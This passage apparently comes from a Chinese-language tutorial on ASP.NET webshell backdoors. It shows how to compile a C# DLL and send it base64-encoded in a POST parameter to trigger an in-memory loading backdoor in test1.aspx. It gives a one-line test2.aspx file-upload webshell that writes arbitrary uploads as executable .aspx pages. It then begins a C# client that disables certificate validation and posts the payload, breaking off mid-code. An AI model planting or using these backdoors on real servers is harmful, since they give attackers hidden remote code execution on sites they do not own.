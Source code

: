(2)编译生成dll文件

命令如下：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library demo.cs
```

生成demo.dll后进行base64加密，作为POST请求中参数`demodata`的内容，发送至test1.aspx，即可触发后门


### 2.文件写入

为了缩短代码长度，示例test2.aspx的代码如下：

```
<%@ Page Language="C#" %><%if (Request.Files.Count!=0)Request.Files[0].SaveAs(Server.MapPath("./uploadDemo.aspx"));}%>
```

代码会判断是否有文件上传请求，如果存在会将第一个文件上传请求的内容保存在同级目录下的`uploadDemo.aspx`

参数说明：

- `Request.Files.Count`：上传文件数量
- `Server.MapPath("")` ：返回当前页面所在的物理文件路径
- `Request.Files[0].SaveAs()`：保存上传的第一个文件
- `Server.MapPath("./uploadByfile.aspx")`：返回当前页面同级路径下的`"uploadByfile.aspx"`

## 0x03 通过C Sharp代码实现后门连接
---

### 1.内存加载.net程序集

发送POST请求带参数时，ContentType需要指定为`application/x-www-form-urlencoded`

POST请求的内容需要注意转义字符的问题，例如发送的内容包含字符`=`，会被识别成用来分隔键和值的特殊字符。而我们使用base64编码时，会用到字符`=`，所以在发送POST请求时，需要将base64编码的结果再次进行URL编码，例如将字符`=`转换为`%3d`

完整代码如下：

```
using System;
using System.Text;
using System.Net;
using System.IO;
using System.Web;

namespace test
{
    public class Program
    {

        public static string HttpPostData(string url, string path)
        {
            byte[] buffer = System.IO.File.ReadAllBytes(path);
            string base64str = Convert.ToBase64String(buffer);

            ServicePointManager.ServerCertificateValidationCallback = (sender, certificate, chain, sslPolicyErrors) => { return true; };
            HttpWebRequest request = WebRequest.Create(url) as HttpWebRequest;
            request.Method = "POST";
            request.ContentType = "application/x-www-form-urlencoded";
            request.UserAgent="Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36xxxxx";

            string Param = "demodata=" + HttpUtility.UrlEncode(base64str);
            byte[] post=Encoding.UTF8.GetBytes(Param);
            Stream postStream = request.GetRequestStream();
```